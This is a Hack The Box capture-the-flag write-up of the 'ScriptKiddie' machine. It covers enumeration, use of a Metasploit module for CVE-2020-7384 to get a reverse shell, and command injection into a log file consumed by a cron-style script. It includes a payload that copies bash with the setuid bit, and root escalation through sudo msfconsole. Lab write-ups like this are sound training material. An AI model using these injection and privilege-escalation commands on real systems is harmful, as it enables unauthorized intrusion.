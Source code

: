 ```yaml
---
title: Hack The Box - ScriptKiddie Writeup
date: 2021-06-06 10:12:00 +0200
categories: [Hack The Box, Machines]
tags: [wfuzz, common-vulnerability, metasploit]     # TAG names should always be lowercase
dirImg: /assets/img/HTB/ScriptKiddie/
image:
  src: /assets/img/HTB/ScriptKiddie/icon.webp
  alt: ScriptKiddie image
toc: false
---
```






Start with usual nmap script to enumerate.  
```
nmap -sC -sV -oN nmap-initial 10.10.10.226
```

We see ssh open, a fitered 903 port and a webserver on 5000.  
We start by looking at port 5000. As we see from the nmap outcome, port 5000 hosts a Werkzeug web application which uses python 3.8.5

Run dirbuster: http://10.10.10.226:5000/, not recursive, extentions: py,html, dictionary medium

Run dirbuster: http://10.10.10.226:5000/, not recursive, extentions: py,html, dictionary dirb big.txt

Run wfuzz to find console entry. Namely
```
wfuzz -u http://10.10.10.226:5000/FUZZ/console -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404
```
No results excepts //console that returns the default page

Ideas:
1. May contain sensitive information ?
http://10.10.10.226:5000/static/hacker.css
2. fuzz url to find console 
e.g. http://10.10.10.226:5000/$FUZZ$/console
3.  Access /console or trigger internal server error to make the console show up
https://medium.com/swlh/hacking-flask-applications-939eae4bffed

The more promising so far is tryng to trigger an internal server error.

### Path 1: Trigger internal state 

1. Change values of os in the payload field  
Since the user is limited to select the values linux,windows or android,  the back end may give the selection of one of this 3 possibilities for granted. We thus try to modify the http payload with Burp, hoping to cause an internal error in the server.  
We tried with names such as 'lll' or also special charachters as \',\",\*. Invalid os is returned by the back end.  
2. Trigger internal state error by using a malformed msfvenom template file  
Did not yield to any results

### Path 2: Command injection in msfvenom template file
While googling for information regarding the template file and msfvenom, we run into the CVE-2020-7384: Malicious user may upload a malicious template file in msfvenom which would trigger code execution on the target machine.  
Metasploit created a module for this vulnerability as we can see from the metasploit github page: https://github.com/rapid7/metasploit-framework/pull/14331.  

We thus use metasploit to exploit the vulnerability (the module is pretty new, so we need to update metasploit if the module is not available)
We select the module (unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) , modify the options and we run the exploit. This will generate the apk file containing our command injection that will be executed by msfvenom on the target machine.  
We start a exploit/multi/handler on our host mahcine and upload the generated apk file in the specific form in the web server. The os which has to be selected is android, the ip can be arbitrary.

Once we press *generate* a reverse shell will be started on the metasploit handler instance.  
The user flag is under /home/kid.  

We now want to escalate the privileges  

We see a scanlosers.sh in the /home/pwn directory that we can read. After a quick analysis of the file it is possible to see that the file /home/kid/logs/hackers is used to retrieve inputs to feed to scanlosers.sh.  
Given that we (as kid) own the the file 'hackers', we may inject some command in the file and hope that it will be executed by the pwn user.  
We can confirm that scanlosers.sh is in action by writing to the 'hackers' file. As we can see, the file get emptied immediately.  
We can easily execute command in scanlosers.sh by using nested commands. Namely
```
echo 'ciao1 ciao2 $(/usr/bin/ping 10.10.14.20)' >> hackers
```
We receive the ping in the host machine, thus confirming the code injection.  
With a better payload:
```
echo 'ciao ciao $(cp /bin/bash /home/pwn/bash; chmod +s /home/pwn/bash)' >> /home/kid/logs/hackers
```

We execute the bash shell with the -p option. The effective user id will be used.
```
./bash -p
```

We are now the user pwn.  
We set up the ssh keys to enter through ssh and have a more stable shell. Since the authorized file is owned by root and we cannot overwrite it, we remove the entire .ssh folder and we create another one. We insert our pub key in the authorized file and we connect through ssh.  

We can then proceed to root the box.  
With  sudo -l we can see that the user pwn can execute msfconsole as root. Again we can use the script kiddie tools against him.  
```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

We thus get the shell as root
```
msf6 > whoami
[*] exec: whoami

root
```

We can now retrieve the flag in /root/root.txt
